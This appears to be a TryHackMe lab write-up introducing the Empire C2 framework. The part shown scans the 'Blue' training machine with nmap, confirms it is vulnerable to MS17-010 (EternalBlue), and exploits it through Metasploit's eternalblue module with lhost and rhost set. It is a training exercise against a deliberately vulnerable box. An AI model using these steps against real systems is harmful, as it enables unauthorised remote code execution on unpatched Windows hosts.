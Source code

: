 Empire, a C2 or Command and Control server created by BC-Security, used to deploy agents onto a device and remotely run modules. Empire is a free and open-source alternative to other command and control servers like the well known Cobalt Strike C2. In this room, we will cover the basics of setting up a listener and stager as well as what types are available, then learn how to use an agent on a device.

---

Before we can move on to using Empire we need to deploy a machine to connect the Empire server with.  

Deploy this machine and discover what exploit this machine is vulnerable to. The virtual machine used in this room (Blue) can be downloaded for offline usage from [https://darkstar7471.com/resources.html](https://darkstar7471.com/resources.html)

_We recommend completing the room '[Blue](https://tryhackme.com/room/blue)' prior to this room for this purpose alone._

Vulnerable to eternal blue.

nmap
```php
nmap -sV -sC -T4 -Pn $IP
```

I confirm that it's vulnerable using script scan with nmap:

```php
nmap -sV -script=safe -T4 -p445  $IP
```

```php
State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

msfconsole

```php
msfconsole
```

```php
search eternalblue
```

```php
use 0
```

```php
set options
```
- add 
	- target ip
	- attacker ip
```php
set lhost tun0
set rhost <TARGET>
run
```
